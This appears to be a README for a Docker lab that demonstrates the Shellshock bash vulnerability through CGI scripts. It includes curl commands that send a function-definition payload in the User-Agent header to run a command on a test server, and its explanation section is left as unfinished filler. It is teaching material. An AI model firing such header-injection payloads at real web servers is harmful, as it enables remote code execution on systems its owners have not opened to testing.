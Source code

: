 # TITLE OF VULN
## Subtitle / what it does
Shellshock (CVE-2014-6271) is a vulnerability in bash shell and allows code execution when declaring new environment variable.
CGI extensions utilize bash and are available remotely on web server.
As CGIs create environment variables from user-supplied data, malicious HTTP header might cause code execution.

### Run in docker:
```
cd 2-shellshock
docker-compose up -d
```

### Safe endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/safe.cgi
```

### Vulnerable endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/victim.cgi
```


### Explanation
This happens costam

### References and recommended reading
https://en.wikipedia.org/wiki/Common_Gateway_Interface
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf

### Credits:
htps://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/bash/shellshock
